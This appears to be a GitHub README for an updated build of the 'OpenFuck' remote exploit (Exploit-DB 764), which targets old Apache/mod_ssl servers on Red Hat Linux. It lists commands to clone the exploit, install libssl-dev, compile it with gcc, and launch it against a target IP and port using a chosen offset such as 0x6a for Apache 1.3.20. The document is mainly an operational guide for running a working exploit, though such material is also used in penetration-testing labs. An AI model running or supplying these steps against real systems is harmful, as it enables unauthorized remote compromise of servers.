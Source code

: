 # OpenLuck

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenFuck.c
```
git clone https://github.com/heltonWernik/OpenFuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenFuck OpenFuck.c -lcrypto
````

4. Running the Exploit
```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

**References:**
https://kongwenbin.wordpress.com/tag/openfuck/
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1
